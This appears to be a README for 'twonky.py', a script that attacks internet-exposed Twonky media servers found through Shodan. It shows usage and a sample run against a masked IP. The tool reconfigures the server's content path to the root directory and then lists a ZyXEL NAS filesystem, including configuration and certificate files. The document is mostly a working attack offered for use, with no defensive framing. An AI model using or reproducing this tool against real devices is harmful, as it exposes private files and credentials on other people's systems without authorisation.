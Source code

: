 # sharingIsCaring
Usage: $ twonky.py [IP Adress] [port]

Example Usage:
$ python twonky.py XXX.XXX.XXX.XXX 9443
https://www.shodan.io/host/XXX.XXX.XXX.XXX
*** Port 9443 opened ***
Run Twonky browser on port 9443 [Y, N]? [Y]
*** Get Serverdetails from Twonky ***
Server Name: XXX
Serverplatform: arm_marvell_gnueabihf__zyxel-NAS-326-arm-marvell-gnueabihf-oem
Pictures shared: 0
Videos shared: 0
Pictures shared: 0
Videos shared: 0
Twonky Version: 8.3-19
Build date: 12/12/2016 (mm/dd/yyyy)
*** 'contentbase' path set to '/'' ***
path nr:
------------------------------
001 Dir /
002 Dir /e-data
003 Dir /firmware
004 Dir /home
005 Dir /i-data
006 Fil /init
007 Fil /linuxrc
008 Dir /mnt
009 Dir /ram_bin
010 Dir /root
011 Dir /tmp
012 Dir /usr
013 Dir /var
------------------------------
path nr: 002
------------------------------
------------------------------
path nr: 011
------------------------------
001 Fil DavLock
002 Fil ediskmap.map
003 Fil fileye
004 Dir fwupgrade
005 Fil intern_disk.map
006 Fil ipcs_info
007 Fil job_queue_socket
008 Fil LEDBlinkEnable
009 Fil libzydb.lock
010 Fil main_wsgi.sock
011 Fil md_vg.map
012 Fil need_thumbnail
013 Fil nsu_progress
014 Fil pylog
015 Fil startup-config.conf
016 Fil sto_log
017 Fil stop_stunnel_client.log
018 Dir tmpfs
019 Fil twonkyserver-log.txt
020 Fil ugs.log
021 Dir upnp
022 Dir users
023 Fil zyfw_dl.filetype
024 Fil zyfw_dl.progress
025 Fil zyfw_dl_errno
026 Fil zylog_fifo1
027 Fil zylog_fifo2
028 Fil zylog_fifo3
029 Fil zylog_fifo4
030 Fil zypkglist_download.progress
031 Fil zyxel_cloud_agent_cert.conf
032 Fil zyxel_cloud_agent_configure.conf
------------------------------
path nr: 011/004
------------------------------
001 Fil fwlog
------------------------------
path nr: exit

